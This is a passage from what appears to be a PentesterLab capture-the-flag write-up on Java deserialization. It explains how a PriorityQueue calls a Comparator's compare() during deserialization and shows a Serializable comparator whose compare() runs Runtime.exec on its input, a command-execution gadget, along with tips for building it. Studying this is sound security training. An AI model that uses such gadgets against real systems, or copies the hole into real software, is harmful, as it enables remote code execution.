 The method `heapify()` calls `siftDownUsingComparator()` when a comparator is set. And this method calls the method `compare()` of the conparator (`cmp`):

```java
private static  void siftDownUsingComparator(
        int k, T x, Object[] es, int n, Comparator<? super T> cmp) {
        int half = n >>> 1;
        while (k < half) {
            int child = (k << 1) + 1;
            Object c = es[child];
            int right = child + 1;
            if (right < n && cmp.compare((T) c, (T) es[right]) > 0)
                c = es[child = right];
            if (cmp.compare(x, (T) c) <= 0)
                break;
            es[k] = c;
            k = child;
        }
        es[k] = x;
    }
```

## **Java Serialize - 05**

in this challenge, you need to leverage a `java.util.PriorityQueue` that will call the method `compare()` when it gets deserialized. 

```java
package com.pentesterlab;
import java.io.IOException;
import java.io.Serializable;
import java.util.Comparator;
import java.lang.RuntimeException;

public class AnotherClass implements Comparator, Serializable {
    public int compare(String a, String b) {
        try {
            return Runtime.getRuntime().exec(a).exitValue();
        } catch (Exception e)  {
            throw new RuntimeException("Nope");
        }
    }
}
```

```java
      AnotherClass comparator = new AnotherClass();
      PriorityQueue priorityQueue = new PriorityQueue(2, comparator);
```

There is a small difference with the previous challenge. Here the compare method throws a `RuntimeException` if the command fails during the creation of the gadget. There are two ways to bypass this:

- You can create the right file on your system as a symbolic link for example
- You can use Java to avoid running the command locally (the recommended way to increase how much you learn).
